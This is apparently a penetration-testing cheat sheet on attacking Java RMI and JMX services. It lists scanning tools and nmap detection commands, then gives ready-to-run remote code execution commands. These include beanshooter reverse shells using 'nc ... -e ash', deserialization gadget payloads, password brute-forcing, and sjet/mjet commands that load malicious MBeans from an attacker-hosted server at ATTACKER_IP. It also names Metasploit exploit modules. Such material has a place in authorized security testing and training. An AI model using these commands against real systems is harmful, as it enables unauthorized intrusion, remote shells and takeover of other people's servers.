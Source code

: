 # Java RMI

> Java RMI (Remote Method Invocation) is a Java API that allows an object running in one JVM (Java Virtual Machine) to invoke methods on an object running in another JVM, even if they're on different physical machines. RMI provides a mechanism for Java-based distributed computing.

## Summary

* [Tools](#tools)
* [Detection](#detection)
* [Methodology](#methodology)
    * [RCE using beanshooter](#rce-using-beanshooter)
    * [RCE using sjet/mjet](#rce-using-sjet-or-mjet)
    * [RCE using Metasploit](#rce-using-metasploit)
* [References](#references)

## Tools

* [siberas/sjet](https://github.com/siberas/sjet) - siberas JMX exploitation toolkit
* [mogwailabs/mjet](https://github.com/mogwailabs/mjet) - MOGWAI LABS JMX exploitation toolkit
* [qtc-de/remote-method-guesser](https://github.com/qtc-de/remote-method-guesser) - Java RMI Vulnerability Scanner
* [qtc-de/beanshooter](https://github.com/qtc-de/beanshooter) - JMX enumeration and attacking tool.

## Detection

* Using [nmap](https://nmap.org/):

  ```powershell
  $ nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p TARGET_PORT TARGET_IP -Pn -v
  1089/tcp open  java-rmi Java RMI
  | rmi-vuln-classloader:
  |   VULNERABLE:
  |   RMI registry default configuration remote code execution vulnerability
  |     State: VULNERABLE
  |       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
  | rmi-dumpregistry:
  |   jmxrmi
  |     javax.management.remote.rmi.RMIServerImpl_Stub
  ```

* Using [qtc-de/remote-method-guesser](https://github.com/qtc-de/remote-method-guesser):

  ```bash
  $ rmg scan 172.17.0.2 --ports 0-65535
  [+] Scanning 6225 Ports on 172.17.0.2 for RMI services.
  [+]  [HIT] Found RMI service(s) on 172.17.0.2:40393 (DGC)
  [+]  [HIT] Found RMI service(s) on 172.17.0.2:1090  (Registry, DGC)
  [+]  [HIT] Found RMI service(s) on 172.17.0.2:9010  (Registry, Activator, DGC)
  [+]  [6234 / 6234] [#############################] 100%
  [+] Portscan finished.

  $ rmg enum 172.17.0.2 9010
  [+] RMI registry bound names:
  [+]
  [+]  - plain-server2
  [+]   --> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
  [+]       Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff7, 9040809218460289711]
  [+]  - legacy-service
  [+]   --> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
  [+]       Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ffc, 4854919471498518309]
  [+]  - plain-server
  [+]   --> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
  [+]       Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff8, 6721714394791464813]
  [...]
  ```

* Using [rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)

  ```bash
  use auxiliary/scanner/misc/java_rmi_server
  set RHOSTS <IPs>
  set RPORT <PORT>
  run
  ```

## Methodology

If a Java Remote Method Invocation (RMI) service is poorly configured, it becomes vulnerable to various Remote Code Execution (RCE) methods. One method involves hosting an MLet file and directing the JMX service to load MBeans from a distant server, achievable using tools like mjet or sjet. The remote-method-guesser tool is newer and combines RMI service enumeration with an overview of recognized attack strategies.

### RCE using beanshooter

* List available attributes: `beanshooter info 172.17.0.2 9010`
* Display value of an attribute: `beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose`
* Set the value of an attribute: `beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose true --type boolean`
* Bruteforce a password protected JMX service: `beanshooter brute 172.17.0.2 1090`
* List registered MBeans: `beanshooter list 172.17.0.2 9010`
* Deploy an MBean: `beanshooter deploy 172.17.0.2 9010 non.existing.example.ExampleBean qtc.test:type=Example --jar-file exampleBean.jar --stager-url http://172.17.0.1:8000`
* Enumerate JMX endpoint: `beanshooter enum 172.17.0.2 1090`
* Invoke method on a JMX endpoint: `beanshooter invoke 172.17.0.2 1090 com.sun.management:type=DiagnosticCommand --signature 'vmVersion()'`
* Invoke arbitrary public and static Java methods:

    ```ps1
    beanshooter model 172.17.0.2 9010 de.qtc.beanshooter:version=1 java.io.File 'new java.io.File("/")'
    beanshooter invoke 172.17.0.2 9010 de.qtc.beanshooter:version=1 --signature 'list()'
    ```

* Standard MBean execution: `beanshooter standard 172.17.0.2 9010 exec 'nc 172.17.0.1 4444 -e ash'`
* Deserialization attacks on a JMX endpoint: `beanshooter serial 172.17.0.2 1090 CommonsCollections6 "nc 172.17.0.1 4444 -e ash" --username admin --password admin`

### RCE using sjet or mjet

#### Requirements

* Jython
* The JMX server can connect to a http service that is controlled by the attacker
* JMX authentication is not enabled

#### Remote Command Execution

The attack involves the following steps:

* Starting a web server that hosts the MLet and a JAR file with the malicious MBeans
* Creating a instance of the MBean `javax.management.loading.MLet` on the target server, using JMX
* Invoking the `getMBeansFromURL` method of the MBean instance, passing the webserver URL as parameter. The JMX service will connect to the http server and parse the MLet file.
* The JMX service downloads and loades the JAR files that were referenced in the MLet file, making the malicious MBean available over JMX.
* The attacker finally invokes methods from the malicious MBean.

Exploit the JMX using [siberas/sjet](https://github.com/siberas/sjet) or [mogwailabs/mjet](https://github.com/mogwailabs/mjet)

```powershell
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"

jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

### RCE using Metasploit

```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS <IPs>
set RPORT <PORT>
# configure also the payload if needed
run
```

## References

* [Attacking RMI based JMX services - Hans-Martin Münch - April 28, 2019](https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/)
* [JMX RMI - MULTIPLE APPLICATIONS RCE - Red Timmy Security - March 26, 2019](https://www.exploit-db.com/docs/english/46607-jmx-rmi-–-multiple-applications-remote-code-execution.pdf)
* [remote-method-guesser - BHUSA 2021 Arsenal - Tobias Neitzel - August 15, 2021](https://www.slideshare.net/TobiasNeitzel/remotemethodguesser-bhusa2021-arsenal)
